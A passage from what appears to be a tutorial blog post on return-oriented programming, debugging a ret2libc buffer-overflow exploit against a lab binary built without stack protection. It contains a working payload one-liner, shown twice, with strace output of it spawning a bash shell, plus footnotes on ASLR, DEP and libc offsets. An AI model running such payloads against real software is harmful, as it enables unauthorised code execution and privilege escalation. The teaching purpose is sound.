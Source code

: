 
It should look like this:

~~~
:::console
(gdb) x/4a $esp
0xffffd6ec:	0x5564b6f0 <execlp>	0x80483fa <main>	0x80483fa <main>	0x0
~~~

## `strace` ##

Another really useful tool is `strace`, which will print out every syscall made by the program. In the following example, I forgot to set `PATH`: the exploit worked but it was unable to find my file:

~~~
:::console
$ cat <(python -c 'print "A"*0x6c + "BBBB" + "\xf0\xb6\x64\x55" + "\xfa\x83\x04\x08"*2 + "\x00\x00\x00\x00"') | strace ./a.out
... <snip> ...
read(0, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"..., 200) = 129
execve("/usr/local/sbin/U\211\345\203\344\360\350\317\377\377\377\270", [], [/* 30 vars */]) = -1 ENOENT (No such file or directory)
execve("/usr/local/bin/U\211\345\203\344\360\350\317\377\377\377\270", [], [/* 30 vars */]) = -1 ENOENT (No such file or directory)
execve("/usr/sbin/U\211\345\203\344\360\350\317\377\377\377\270", [], [/* 30 vars */]) = -1 ENOENT (No such file or directory)
execve("/usr/bin/U\211\345\203\344\360\350\317\377\377\377\270", [], [/* 30 vars */]) = -1 ENOENT (No such file or directory)
execve("/sbin/U\211\345\203\344\360\350\317\377\377\377\270", [], [/* 30 vars */]) = -1 ENOENT (No such file or directory)
execve("/bin/U\211\345\203\344\360\350\317\377\377\377\270", [], [/* 30 vars */]) = -1 ENOENT (No such file or directory)
...
~~~

In this case, I forgot to keep `stdin` open, so it happily executes my `python` program and `bash` and then immediately `exit`s after a 0 byte `read`:

~~~
:::console
$ python -c 'print "A"*0x6c + "BBBB" + "\xf0\xb6\x64\x55" + "\xfa\x83\x04\x08"*2 + "\x00\x00\x00\x00"' | strace ./a.out
... <snip> ...
read(0, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"..., 200) = 129
execve("/tmp/U\211\345\203\344\360\350\317\377\377\377\270", [], [/* 30 vars */]) = 0
... <snip> ...
geteuid()                               = 1337
geteuid()                               = 1337
geteuid()                               = 1337
setresuid(1337, 1337, 1337)             = 0
execve("/bin/bash", ["bash"], [/* 21 vars */]) = 0
... <snip> ...
read(0, "", 1)                          = 0
exit_group(0)                           = ?
~~~


[^1]: [ASLR](https://en.wikipedia.org/wiki/ASLR) is the technique where portions of the program, such as the stack or the heap, are placed at a random location in memory when the program is first run. This causes the address of stack buffers, allocated objects, etc to be randomized between runs of the program and prevents the attacker.
[^2]: [DEP](https://en.wikipedia.org/wiki/Data_Execution_Prevention) is the technique where memory can be either writable or executable, but not both. This prevents an attacker from filling a buffer with shellcode and executing it. While this usually requires hardware support, it is quite commonly used on modern programs. 
[^3]: To make life easier for us, we compile with `gcc -m32 -fno-stack-protector easy_rop.c`. 
[^4]: You'll note that we use print the exploit string in a python subshell.  This is so we can print escape characters and use arbitrary bytes in our payload. We also surround the subshell in double quotes in case the payload had whitespace in it.
[^7]: These can be found in the `libc` library itself: `ldd a.out` tells us that the library can be found at `/lib/i386-linux-gnu/libc.so.6`. We can use `objdump`, `nm`, `strings`, etc. on this library to directly find any information we need. These addresses will all be offset from the base of `libc` in memory and can be used to compute the actual addresses by adding the offset of `libc` in memory.
[^8]: I believe someone even [tried to prove](http://cseweb.ucsd.edu/~hovav/papers/rbss12.html) that ROP is turing complete.   
[^10]: Note the `$'\211'` syntax to enter escape characters.
[^11]: To see why this is necessary, compare the behavior of `echo ls | bash` to `cat <(echo ls) - | bash`.